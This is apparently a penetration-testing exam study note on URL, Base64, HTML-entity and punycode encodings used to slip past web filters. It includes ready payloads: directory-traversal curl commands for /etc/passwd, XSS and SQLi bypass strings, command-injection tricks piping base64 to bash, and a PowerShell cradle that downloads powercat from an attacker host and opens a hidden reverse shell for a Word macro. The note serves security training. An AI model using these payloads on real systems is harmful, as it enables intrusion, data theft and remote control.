

---
tags:
  - encoding
  - reference
  - url-encoding
  - bypass
  - index
---

# 🔣 Encoding Reference

> [!abstract] Why encoding matters
> Web apps and filters often block characters like `/`, `.`, `'`, `<`. **Encoding** disguises those characters so they slip past filters but still mean the same thing to the server. This is the heart of bypassing traversal, SQLi, and XSS filters.

> [!tip] Fastest tool: [CyberChef](https://gchq.github.io/CyberChef) — drag "URL Encode" / "From Base64" recipes. Save an offline copy before the exam.

---

## 🌐 URL / Percent Encoding (the big one)

Each character becomes `%` + its hex code. Memorise the starred ⭐ ones.

| Char | Encoded | Char | Encoded |
|------|---------|------|---------|
| `space` | `%20` ⭐ | `/` | `%2f` ⭐ |
| `.` | `%2e` ⭐ | `\` | `%5c` |
| `:` | `%3a` | `?` | `%3f` |
| `=` | `%3d` | `&` | `%26` |
| `#` | `%23` | `%` | `%25` ⭐ |
| `'` | `%27` ⭐ | `"` | `%22` |
| `<` | `%3c` ⭐ | `>` | `%3e` ⭐ |
| `(` | `%28` | `)` | `%29` |
| `;` | `%3b` | `+` | `%2b` |
| `null` | `%00` | newline | `%0a` |

> [!example] Directory traversal with encoded dots
> ```bash
> # Blocked:
> curl "http://$IP/page?file=../../../../etc/passwd"
> # Encoded dots bypass the ../ filter:
> curl "http://$IP/page?file=%2e%2e/%2e%2e/%2e%2e/etc/passwd"
> ```
> See [[Encoding special characters]] for the full worked example.

> [!warning] Overlong UTF-8 as a second-layer traversal bypass
> `%c0%ae` is an **overlong UTF-8** encoding of `.` — technically invalid UTF-8 (a multi-byte sequence for a character that fits in one byte), but some older/lenient parsers decode it anyway. Worth trying when plain `%2e%2e` and double-encoding both get stripped: `%c0%ae%c0%ae/` in place of `../`. A Windows-specific variant: the backslash (`%5c`) sometimes survives a filter that only blocks forward slashes, since IIS/Windows treats both as path separators.

---

## 🔁 Double Encoding

When the server decodes **once**, encode **twice**. The `%` itself becomes `%25`.

| Want | Single | Double |
|------|--------|--------|
| `/` | `%2f` | `%252f` |
| `.` | `%2e` | `%252e` |

> [!warning] Try double encoding when single encoding gets stripped but the page still rejects you — a proxy/WAF may be decoding once before the app sees it.

---

## 🔤 Base64

> [!example]
> ```bash
> echo -n 'cat /etc/passwd' | base64           # encode  ->  Y2F0IC9ldGMvcGFzc3dk
> echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d      # decode
> ```
> Common in: PHP filter LFI (`php://filter/convert.base64-encode/...`), encoded payloads, tokens, basic-auth headers.

> [!danger] PowerShell `-enc` needs UTF-16LE, not UTF-8
> `powershell.exe -enc <base64>` silently fails to run if the base64 was produced with a plain UTF-8 encode — it specifically expects **UTF-16LE**. Encode with `pwsh` on Kali:
> ```powershell
> $cmd = "IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>:8000/powercat.ps1');powercat -c <LHOST> -p 4444 -e powershell"
> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($cmd))
> ```
> Then run it on the target: `powershell.exe -nop -w hidden -enc <BASE64>`
> 🔗 This is exactly the encode step used to smuggle the PowerCat cradle from the [[🧰 Command Cheat Sheet]] into a VBA macro in [[Leveraging Microsoft Word macros]] — VBA's 255-char literal limit means the resulting base64 blob also has to be chunked (50 chars at a time) and concatenated into a `Dim Str As String` variable rather than pasted as one string.

---

## 🌍 Punycode / IDN homograph (lookalike domains)

Internationalized domains encode non-ASCII characters as `xn--...` ASCII strings — e.g. a Cyrillic "а" swapped into "аpple.com" renders visually identical to the real domain but resolves to `xn--pple-43d.com`. Core technique behind phishing lookalike domains (see [[Recognize malicious links]]).

```bash
idn2 xn--pple-43d.com          # decode punycode -> reveals the real (spoofed) chars
python3 -c "print('аpple.com'.encode('idna'))"   # encode a unicode domain to punycode
dnstwist apple.com              # generate + check plausible lookalike registrations
```

> [!tip] Hover, don't trust — the address bar renders punycode back to Unicode by default in most browsers, which is exactly what makes the homograph swap invisible without decoding it explicitly.

---

## 🅷 HTML Entities (for XSS / output that gets escaped)

| Char | Entity | Numeric |
|------|--------|---------|
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `"` | `&quot;` | `&#34;` |
| `'` | `&#x27;` | `&#39;` |
| `&` | `&amp;` | `&#38;` |

> [!tip] If your `<script>` shows up as text on the page, the app is HTML-encoding it. Try breaking out of an attribute, or use event handlers like `onerror`. See [[Basic XSS]].

> [!example] XSS-specific bypass encodings
> ```html
> <!-- Double URL-encoding, when a WAF decodes once before the app decodes again -->
> %253Cscript%253Ealert(1)%253C/script%253E
> <!-- JS obfuscation to dodge a keyword/string-match filter on "alert" -->
> <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
> <!-- HTML entity encoding inside an event handler, when raw < > get stripped but entities don't -->
> 
> ```

> [!warning] PHP `zip://` wrapper needs `#` URL-encoded as `%23`
> `zip://path/to/file.zip#internal_file.php` — the `#` normally starts a URL fragment and gets truncated by the browser/client before the request is even sent, so the request never reaches the server with the internal filename intact. Encode it as `%23` to keep it in the query string. See [[PHP wrappers]].

---

## 🧱 Filter Bypass Cheats by attack



> [!example] Command injection space/keyword bypasses
> ```bash
> cat${IFS}/etc/passwd          # ${IFS} = space
> ca''t /etc/passwd             # quotes break keyword filters
> echo Y2F0... | base64 -d | bash   # smuggle via base64
> %0a id                        # newline to chain a command
> ```

> [!example] SQLi space bypasses
> ```sql
> SELECT/**/username/**/FROM/**/users     -- /**/ replaces spaces
> ' OR 1=1-- -                            -- classic auth bypass (note trailing space)
> ' UNION/**/SELECT/**/1,2,3-- -
> ```

---

## Related
- [[Encoding special characters]]
- [[🧰 Command Cheat Sheet]]
- [[Identifying and exploiting directory traversals]]
- [[Command Injection]]

> [!info] Section: [[🏠 Home]]
